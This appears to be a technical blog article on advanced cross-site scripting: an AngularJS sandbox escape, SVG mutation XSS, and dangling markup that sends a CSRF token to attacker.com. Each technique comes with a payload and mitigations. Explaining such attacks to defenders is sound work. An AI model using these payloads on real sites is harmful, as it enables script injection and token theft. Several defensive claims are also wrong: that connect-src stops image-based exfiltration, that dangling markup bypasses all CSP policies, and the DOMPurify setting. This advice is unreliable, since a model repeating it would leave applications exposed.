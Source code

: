 # Advanced XSS Exploitation: Bypassing Modern Web Defenses

## The Persistent Threat of Cross-Site Scripting

Despite decades of security improvements, Cross-Site Scripting (XSS) remains one of the most prevalent web vulnerabilities. Modern web applications employ multiple defense mechanisms like Content Security Policy (CSP) and DOM sanitization, yet sophisticated attackers continue to find bypasses. In this technical exploration, we examine three advanced XSS techniques that circumvent contemporary security controls.

## 1. AngularJS Sandbox Escapes: Breaking the Chains

### Understanding the Sandbox
AngularJS 1.x implemented a sandbox designed to prevent arbitrary JavaScript execution in template expressions (e.g., `{{ userInput }}`). The sandbox worked by:

- Creating a restricted execution environment
- Shadowing native JavaScript functions
- Implementing expression whitelisting

### The Escape Technique
Security researchers discovered prototype pollution could break these restrictions:

```javascript
{{
  x = {'y':''.constructor.prototype};
  x['y'].charAt = [].join;
  $eval('x=alert(1)');
}}
```

**Exploitation Breakdown:**
1. Accesses the String prototype through constructor chaining
2. Overrides the `charAt` function to bypass sandbox checks
3. Uses Angular's `$eval` to execute arbitrary JavaScript

**Impact Assessment:**
- Effective even with partial CSP implementations
- Bypasses input filters unaware of Angular contexts
- Particularly dangerous in legacy applications

**Mitigation Strategies:**
- Upgrade to Angular 2+ (eliminated the sandbox model)
- Implement strict CSP without `unsafe-eval`
- Apply context-aware output encoding

## 2. Mutation XSS: When Parsers Betray You

### The mXSS Vulnerability
Mutation XSS occurs when browser DOM parsing behavior differs from server-side sanitization, allowing malicious markup to transform during rendering.

### Case Study: SVG mXSS
```html
<svg>
  <style><![CDATA[</style>
  <img src=x onerror=alert(1)>
]]>
</svg>
```

**Attack Flow:**
1. Sanitizer processes as harmless SVG with CDATA
2. Browser's reparsing breaks context boundaries
3. `onerror` handler executes during final rendering

**Bypassed Protections:**
- DOMPurify and similar sanitizers
- React's dangerouslySetInnerHTML
- WYSIWYG editors with HTML support

**Defensive Measures:**
- Configure DOMPurify with `RETURN_DOM: false`
- Implement nonce-based CSP
- Maintain current sanitization libraries

## 3. Dangling Markup: The Silent Data Exfiltration

### Technique Overview
When complete XSS is blocked, attackers can still exfiltrate sensitive data through malformed HTML tags.

### Exploitation Scenario
**Vulnerable Element:**
```html
<input type="text" value="USER_CONTROLLED_INPUT">
```

**Malicious Payload:**
```html
"><img src='https://attacker.com?exfil=
```

**Resulting Markup:**
```html
<input type="text" value=""><img src='https://attacker.com?exfil=CSRF_TOKEN'>
```

**Key Characteristics:**
- Operates without JavaScript execution
- Bypasses strict CSP policies
- Effective against applications with partial encoding

**Prevention Methods:**
- Strict HTML attribute encoding
- CSP `connect-src` directives
- Input validation for incomplete tags

## Comparative Defense Analysis

| Technique | Bypassed Protections | Severity | Primary Countermeasures |
|-----------|----------------------|----------|-------------------------|
| AngularJS Escape | CSP (with unsafe-eval) | Critical | Framework migration |
| Mutation XSS | DOMPurify, React | High | Parser-aware sanitization |
| Dangling Markup | All CSP policies | Medium-High | Strict output encoding |

## Security Recommendations

1. **Defense in Depth**
   - Combine CSP with proper encoding and validation
   - Implement multiple layers of protection

2. **Maintenance Practices**
   - Regularly update frameworks and libraries
   - Monitor for new bypass techniques

3. **Content Security Policy**
   - Avoid `unsafe-eval` and `unsafe-inline`
   - Use nonce-based script loading

4. **Security Testing**
   - Include mutation testing in assessments
   - Conduct regular penetration tests

## Final Thoughts

XSS continues to evolve alongside web technologies. These advanced techniques demonstrate that traditional security measures alone are insufficient. By understanding these attack vectors and implementing comprehensive defenses, organizations can significantly reduce their XSS risk surface.
